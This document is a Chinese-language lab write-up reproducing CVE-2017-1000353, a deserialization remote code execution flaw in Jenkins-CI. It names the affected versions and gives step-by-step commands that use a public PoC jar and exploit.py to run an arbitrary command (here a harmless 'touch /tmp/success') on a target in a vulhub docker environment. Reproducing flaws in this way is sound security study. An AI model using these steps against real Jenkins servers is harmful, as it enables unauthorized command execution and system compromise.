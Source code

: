 （CVE-2017-1000353）Jenkins-CI 远程代码执行漏洞
===============================================

一、漏洞简介
------------

该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

二、漏洞影响
------------

所有Jenkins主版本均受到影响(包括\<=2.56版本)所有Jenkins LTS 均受到影响( 包括\<=2.46.1版本)

三、复现过程
------------

### 步骤一、生成序列化字符串

参考<https://github.com/ianxtianxt/CVE-2017-1000353>，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/ianxtianxt/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

    java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
    # jenkins_poc.ser是生成的字节码文件名
    # "touch ..."是待执行的任意命令

执行上述代码后，生成jenkins\_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/ianxtianxt/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://www.0-sec.org:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![1.jpg](resource/(CVE-2017-1000353)Jenkins-CI远程代码执行漏洞/media/rId29.jpg)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![2.jpg](resource/(CVE-2017-1000353)Jenkins-CI远程代码执行漏洞/media/rId30.jpg)

参考链接
--------

> https://vulhub.org/\#/environments/jenkins/CVE-2017-1000353/

